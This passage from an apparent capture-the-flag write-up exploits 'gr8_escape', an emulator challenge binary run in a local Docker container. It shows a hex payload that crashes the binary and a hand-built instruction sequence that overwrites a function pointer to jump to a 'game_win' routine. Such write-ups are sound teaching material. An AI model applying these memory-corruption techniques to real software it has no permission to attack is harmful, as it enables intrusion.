 ```
$ docker run -it -p 127.0.0.1:1223:1223 advent2019-1223 /bin/bash
root@fcae15b936c2:/# ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  4.0  0.0  18500  3212 pts/0    Ss   03:05   0:00 /bin/bash
root        11  0.0  0.0  34396  2688 pts/0    R+   03:06   0:00 ps aux
root@fcae15b936c2:/# cd
root@fcae15b936c2:~# python
Python 2.7.15+ (default, Oct  7 2019, 17:39:04) 
[GCC 7.4.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import binascii
>>> open('test.bin','wb').write(binascii.unhexlify('00e0f0752200'))
>>> 
root@fcae15b936c2:~# xxd test.bin 
00000000: 00e0 f075 2200                           ...u".
root@fcae15b936c2:~# ./gr8_escape < test.bin 

.. <snip>

|                                                                |
|                                                                |
|                                                                |
+----------------------------------------------------------------+
Segmentation fault
root@fcae15b936c2:~# 
```

This is a good proof of concept, but we weren't really careful with what the function we were now jumping to was. Going back to the disassembly for a second, I found that there was a function I labeled as "game_win". This function has its own interesting properties, which I'll come back to later. Importantly, the address of it is 0x00402140 which only differs from the original print registers function (0x00402266) in the low 12 bits!

Now, the trick is to write the value `140` instead of `204` (as above) in the register. To do this, I constructed similar instructions earlier in the program memory, and then jumped too it. I had to write a couple "nop"-like instructions, so I didn't overwrite too much of the address. The instructions I created were as follows:

```
a13c # set "unk" to 13c
6000 # set V0 to 00
61e0 # set V1 to e0
62f0 # set V2 to f0
6375 # set V3 to 75
6421 # set V4 to 21
653c # set V5 to 3c
ff55 # for i=0..x
         game_state[unk+i] = Vi
6666 # "nop", set V6 to 66
6666 # "nop", set V6 to 66
213c # call 13c
```
